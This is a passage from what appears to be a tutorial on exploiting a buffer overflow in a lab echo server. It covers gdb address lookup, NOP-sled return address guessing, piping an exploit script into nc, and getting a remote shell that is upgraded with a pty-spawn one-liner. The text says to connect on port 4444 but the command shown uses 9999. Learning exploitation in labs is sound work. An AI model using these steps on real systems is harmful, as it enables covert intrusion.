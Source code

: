 I type 'hello' and it echo's it back to me. Back to gdb. We now see:

```
Breakpoint 1, echo_handler (client_fd=0x7fffffffe798) at echo.c:26
26      return client_fd;
```

Now we can print the address of `line` by doing:

```
(gdb) x/xw line
0x7ffff7814f00: 0x00000a6a
```

That's the info we needed. From there we can compute a good `attack_addr`. I added 64 and the around 100 more to make sure I was inside the `nop` sled. Remember, we repeat `attack_addr` 10 times. That's 80 bytes, so 100 or so is a good guess. If it doesn't work the first time,  a little trial and error goes a long way.

Note that the `attack_addr` is backwards! This is super important. x86_64 is [little endian](https://en.wikipedia.org/wiki/Endianness). If you don't know what that means, go look it up. It's worth your time to understand that.

Ok, now we can actually use our exploit:

```bash
$ python nc_exploit.py| nc 192.168.242.131 9999
```

It's that simple. Now to use the exploit, we connect on port `4444`:

```
nc 192.168.242.131 9999
whoami
developer
pwd
/home/developer
```

I typed a couple commands to make sure I had a shell. It's not quite what we are used to a shell looking like. That's because a psudo-terminal hasn't been allocated. If it bugs you, you can fix it like this:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
developer@debian:/home/developer$ whoami
whoami
developer
developer@debian:/home/developer$ pwd
pwd
/home/developer
developer@debian:/home/developer$
```

It still echo's your command back, but now things look right.

Awesome huh?

Here is something more awesome. This exploit is non-destructive! If we fire up another terminal and connect to the echo server on port 9999 it still works as expected. This is the best case scenario for an exploiter. The victim has no idea that anything is amiss and the vulnerable program just keep on running!
